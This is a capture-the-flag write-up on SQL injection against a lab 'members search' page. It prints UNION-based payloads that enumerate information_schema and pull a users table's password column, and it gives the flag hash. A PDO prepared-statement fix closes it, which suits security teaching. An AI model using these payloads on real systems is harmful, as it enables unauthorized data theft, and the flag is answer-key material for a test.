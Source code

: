 # EXPLANATION

In the members search page 

We can get all the DB users by searching "1 or 1 = 1"

By using UNION we can try to get more crucial information from **information_schema** which is a DB  used to store details of other databases on the server.

To get all the columns of the users table:
`1 or 1 = 1 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns`
The users table columns are : user_id, first_name, last_name, town, country, planet, Commentaire, countersign

After knowing the users table columns, the most important query is:
`1 or 1 = 1 UNION SELECT Commentaire,countersign FROM users`
It contains an instruction 

We decrypt the countersign and it gives "FortyTwo" after lowering all the chars and then encrypting using SH256 we get the flag:
===> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Utility

Get important infos from the DB.

# HOW TO AVOID ?

**Use prepared statements and parameterized queries** These are SQL statements that are sent to and parsed by the database server separately from any parameters. This way it is impossible for an attacker to inject malicious SQL.
Example using PDO:

    ```PHP
    $stmt = $pdo->prepare('SELECT * FROM users WHERE name = :name');

    $stmt->execute([ 'name' => $name ]);

    foreach ($stmt as $row) {
        // Do something with $row
    }
    ```